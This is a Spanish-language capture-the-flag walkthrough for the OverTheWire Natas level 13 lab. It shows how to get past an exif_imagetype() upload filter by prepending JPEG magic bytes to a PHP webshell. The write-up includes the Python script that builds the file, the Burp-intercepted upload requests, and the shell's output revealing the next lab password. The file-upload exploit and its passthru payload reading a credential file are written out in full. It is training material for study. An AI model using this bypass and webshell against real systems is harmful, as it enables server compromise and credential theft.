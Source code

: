 #Natas Level 12 → Level 13

Username: natas13

URL:      http://natas13.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas13.natas.labs.overthewire.org** 
- **Usuario    : natas13**
- **Contraseña : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un mensaje parecido a la prueba anterior indicando que solamente podemos subir ficheros **JPG** 

```html
For security reasons, we now only accept image files!
Choose a JPEG to upload (max 1KB):
```

Vamos a ver si ha cambiado el código fuente desde la prueba anterior.

```php
<?
...
if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
...
```

En principio todas las demás funciones son iguales menos una parte del código de arriba que comprueba si el fichero subido es un fichero **JPG**

```php
...
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) 
{ 
        echo "File is not an image"; 
}
...
```

Bueno, en este caso tenemos que **engañar** a la función **exif_imagetype()** para que acepte el **phpShell.php** como imagen.

¿Y como hacemos eso?

Primero que nada vamos a ver que hace exactamente la funcion **exif_imagetype()**

Vamos a la página oficial de [PHP](http://php.net/docs.php) y miramos la documentación para la función [exif_imagetype](http://php.net/manual/es/function.exif-imagetype.php)

Leemos la documentación y parece que solamente **lee** los **primeros bytes** del fichero para determinar de que tipo es.

```php
exif_imagetype

(PHP 4 >= 4.3.0, PHP 5, PHP 7)
exif_imagetype — Determinar el tipo de una imagen

Descripción 

int exif_imagetype ( string $filename )
exif_imagetype() lee los primeros bytes de una imagen y comprueba su firma.
```

Ahora la pregunta es:
- ¿Cómo **cambiamos** los **primeros bytes** del fichero **phpShell.php** para que sea un **JPG**? 
- ¿Cómo sabemos que **parametro** tenemos que escribir en los **primeros bytes** del fichero para que el **fichero.php** parezca un **JPG**?

Vamos por partes. Primero tenemos que saber como identifica la función **exif_imagetype()** que un fichero es de un tipo u otro leyendo lo **primeros bytes**. 

Buscamos en **Google** acerca de los primeros bytes de los ficheros y nos encontramos con una web [Magic Numbers](https://asecuritysite.com/forensics/magic) que nos hablan de los **primero bytes** de distintos ficheros (JPG,PNG,ZIP,...) que al parecer se llaman **MAGIC NUMBERS**

A nosotros nos interesa el valor del fichero **JPG**

```html
JPEG graphic file	.jpg	FFD8
```

Por lo tanto  tenemos que cambiar los **primeros bytes** del fichero **phpShell.php** a:

```hex
FFD8
```

Podemos utilizar un **Editor Hexadecimal** para cambiarle los primeros bytes o hacer un **Script** en **Python** que nos ayude a escribir eso bytes en el fichero.

El script en **Python** es bastante sencillo de hacer, por lo que lo hacemos así :smile:

Le llamamos **phpShellPython.py** 

```python
fichero = open('phpShell.php','w')  
fichero.write('\xFF\xD8' + '<? passthru("cat /etc/natas_webpass/natas14"); ?>')  
fichero.close()
```

- 1 Abrimos el fichero **phpShell.php** en modo **escritura**
- 2 Escribimos los **primeros bytes** -> **FFD8** al fichero
- 3 Seguimos escribiendo nuestro código para que nos devuelva la contraseña
    - ```php <? passthru("cat /etc/natas_webpass/natas14"); ?> ``` 
- 4 Cerramos el fichero
    
Abrimos el editor **nano** y escribimos el código. A continuación lanzamos el script con el comando:

```bash
python phpShellPython.py
```

Bueno ya tenemos el fichero **phpShell.php** recién salido del horno y ahora solo nos queda realizar las mismas acciones que en la prueba anterior. 

Configuramos el **Proxy** a **localhost:8080** en el navegador y arrancamos el **BURP** para interceptar el tráfico que enviamos y poder modificarlo posteriormente y saltarnos los controles de acceso.

POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------453852881298197434201962635
Content-Length: 531

-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="filename"

phvidqtoy7.jpg
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

ÿØÿà<? passthru("cat /etc/natas_webpass/natas14"); ?>
-----------------------------453852881298197434201962635--




POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------453852881298197434201962635
Content-Length: 531

-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="filename"

phvidqtoy7.jpg
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

ÿØÿà<? passthru("cat /etc/natas_webpass/natas14"); ?>
-----------------------------4538528812981974342




The file upload/7nu704t5gn.php has been uploaded


http://natas13.natas.labs.overthewire.org/upload/7nu704t5gn.php

ÿØÿàLg96M10TdfaPyVBkJdjymbllQ5L6qdl1








 












 




